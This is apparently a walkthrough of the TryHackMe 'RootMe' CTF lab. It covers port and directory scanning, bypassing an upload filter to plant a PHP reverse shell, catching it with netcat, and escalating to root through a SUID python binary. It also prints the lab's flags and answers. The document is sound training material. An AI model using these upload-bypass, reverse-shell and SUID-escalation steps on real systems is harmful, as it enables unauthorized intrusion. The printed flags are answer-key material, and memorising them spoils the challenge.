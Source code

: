 ```yaml
---
layout: single
title: RootMe - TryHackMe
excerpt: "RootMe is a quick and fun easy CTF for beginners where we have to upload a php file to receive a reverse shell and use python to be root"
date: 2023-01-31
classes: wide
toc: true
toc_label: "Contenido"
toc_icon: "fire"
header:
  teaser: /assets/images/try-writeup-rootme/icon.png
  teaser_home_page: true
  icon: /assets/images/tryhackme.webp
categories:
  - TryHackme
  - infosec
tags:  
  - SUID
  - PHP
---
```

![](/assets/images/try-writeup-rootme/icon.png)

RootMe is a quick and fun easy CTF for beginners where we have to upload a php file to receive a reverse shell and use python to be root

## PortScan

```
Nmap scan report for 10.10.55.4
Host is up (0.37s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Task 2 Reconnaissance

*Scan the machine, how many ports are open?* `2`

*What version of Apache is running?* `2.4.29`

*What service is running on port 22?* `ssh`

*Find directories on the web server using the GoBuster tool.* `No answer needed`

To answer the last question we need to do fuzzing first

```
❯ gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt -t 20 -u http://10.10.55.4
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.55.4
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/01/31 23:38:50 Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 305] [--> http://10.10.55.4/js/]
/uploads              (Status: 301) [Size: 310] [--> http://10.10.55.4/uploads/]
/css                  (Status: 301) [Size: 306] [--> http://10.10.55.4/css/]    
/panel                (Status: 301) [Size: 308] [--> http://10.10.55.4/panel/]  
/server-status        (Status: 403) [Size: 275]
```

*What is the hidden directory?* `/panel/`

The same directories
```
❯ nmap --script http-enum -p80 10.10.55.4 -oN webScan
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-31 23:41 CST
Nmap scan report for 10.10.55.4
Host is up (0.16s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

```

## Getting a shell

WebPage

```js
❯ whatweb http://10.10.55.4
http://10.10.55.4 [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.55.4], Script, Title[HackIT - Home]
```

This is the WebPage

![](/assets/images/try-writeup-rootme/webpage.png)

We can upload files in `/panel/`

![](/assets/images/try-writeup-rootme/panel.png)

The web have PHP so can try to upload a file to receive a reverse shell

- [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```
❯ git clone https://github.com/pentestmonkey/php-reverse-shell
Clonando en 'php-reverse-shell'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 10 (delta 1), reused 1 (delta 1), pack-reused 7
Recibiendo objetos: 100% (10/10), 9.81 KiB | 4.90 MiB/s, listo.
Resolviendo deltas: 100% (2/2), listo.
❯ ls
 php-reverse-shell
❯ cd php-reverse-shell
❯ ls
 CHANGELOG   COPYING.GPL   COPYING.PHP-REVERSE-SHELL   LICENSE   php-reverse-shell.php   README.md
```

Now we have to modify the script with our IP and port 

![/assets/images/try-writeup-rootme/xd.png](/assets/images/try-writeup-rootme/xd.png)


If you try to upload the file doesn't work 

![/assets/images/try-writeup-rootme/F.png](/assets/images/try-writeup-rootme/F.png)


We need to bypass that so change the name of the script

```
❯ mv php-reverse-shell.php php-r.phptml
❯ ls
 CHANGELOG   COPYING.GPL   COPYING.PHP-REVERSE-SHELL   LICENSE   php-r.phptml   README.md
```

It works 

![/assets/images/try-writeup-rootme/work.png](/assets/images/try-writeup-rootme/work.png)

Now go to `/uploads`

![/assets/images/try-writeup-rootme/shell.png](/assets/images/try-writeup-rootme/shell.png)


Now listen on the port you put in the script

```
❯ nc -lvnp 443
listening on [any] 443 ...
```

Click on the file if you have problems or you don't receive the shell change the name of the script `.php5`

![/assets/images/try-writeup-rootme/click.png](/assets/images/try-writeup-rootme/click.png)


```
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.18.12.205] from (UNKNOWN) [10.10.55.4] 41936
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:11:23 up 41 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@rootme:/$
Ctrl+z
stty raw -echo; fg
reset xterm
```

## User.txt

```
www-data@rootme:/$ find / -name user.txt 2>/dev/null
/var/www/user.txt
www-data@rootme:/$
```

```
www-data@rootme:/$ cat /var/www/user.txt 
THM{y0u_g0t_a_sh3ll}
www-data@rootme:/$
```

## Privilege escalation

Python is SUID

```
www-data@rootme:/$ find / -perm -4000 2>/dev/null | grep -v snap   
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
www-data@rootme:/$
```

*Search for files with SUID permission, which file is weird?* `/usr/bin/python`

*Find a form to escalate your privileges.* `no answer needed`

Before root.txt

-[Be root with python](https://gtfobins.github.io/gtfobins/python/#suid)

```
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt  
THM{pr1v1l3g3_3sc4l4t10n}
# 
```

*root.txt* `THM{pr1v1l3g3_3sc4l4t10n}`
















































